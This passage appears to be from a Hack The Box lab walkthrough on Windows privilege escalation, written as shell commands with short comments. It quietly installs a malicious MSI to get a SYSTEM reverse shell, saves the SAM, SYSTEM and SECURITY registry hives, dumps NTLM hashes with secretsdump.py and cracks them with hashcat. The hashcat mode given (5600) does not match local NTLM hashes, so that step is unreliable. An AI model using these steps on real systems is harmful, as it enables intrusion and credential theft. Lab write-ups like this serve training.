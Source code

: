     # on Windows machine
    msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
    # this gives us reverse shell on our listener
    ```

    ```sh
    # on reverse shell
    whoami
    # system

    # we can fetch NTLM hashes by extracting it from hives

    cd C:\Users\Administrator\Desktop
    # get flag

    reg save HKLM\SYSTEM SYSTEM.SAV

    reg save HKLM\SAM SAM.SAV

    reg save HKLM\SECURITY SECURITY.SAV
    # transfer these hive files to attacker machine
    ```

    ```sh
    # on attacker machine
    secretsdump.py -sam SAM.SAV -security SECURITY.SAV -system SYSTEM.SAV LOCAL
    # this dumps the NTLM hashes
    
    # copy the NTLM hashes only to a file
    vim hashes.txt

    # cracking NTLM hashes
    hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
    ```
